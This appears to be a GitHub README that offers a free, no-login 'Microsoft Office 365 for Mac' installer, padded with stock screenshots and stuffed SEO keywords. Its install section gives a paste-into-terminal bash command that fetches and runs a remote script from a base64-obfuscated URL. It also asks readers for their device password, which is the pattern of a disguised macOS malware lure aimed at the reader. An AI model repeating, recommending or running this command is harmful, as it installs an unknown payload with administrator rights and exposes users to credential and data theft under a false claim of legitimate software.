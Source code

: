 # Microsoft Office 365 for Mac 

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://shuziktobehuman.github.io/huja/MicrosoftOffice)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

🎯 What You Unlock

   🔓 Full access to Word, Excel, PowerPoint, Outlook, and OneNote

   🎨 Professional templates and design tools

   🔈 Email and calendar integration offline

   🔌 Plugin and add-in support for Mac

   🛠 No Microsoft account login or online validation required

🖼 Preview

![Microsoft Excel on Mac](https://photos5.appleinsider.com/gallery/46739-91179-Microsoft-365-xl.jpg)  


![Office 365 Apps Suite](https://www.microsoft.com/en-us/microsoft-365/blog/wp-content/uploads/sites/2/2020/12/1107-1024x715.png)  


![Office for Mac Blank Document](https://media.gcflearnfree.org/content/6040e67589f5e81e806008f2_03_04_2021/officeformac_blank_recent.jpg)  



🔍 SEO Keywords

microsoft 365 for mac, ms office mac, officeformac, excel formac, mac for word, office 365 for mac, microsoft office suite for mac, microsoft suite for mac, excel download mac, office 365 mac download, microsoft 365 download for mac, office download for mac, download ms office for mac, office 365 macbook, ms office for mac lifetime, microsoft access download mac, microsoft access mac, microsoft 365 macbook, powerpoint download for mac, download microsoft word on mac, download ms word for mac, download microsoft office on mac, download microsoft outlook for mac, ms office suite for mac, microsoft 365 subscription for mac, offline microsoft office mac, offline ms office setup, mac office offline activation, office 365 offline installer mac, office suite offline mac, microsoft office offline mac installation, office 365 mac no login
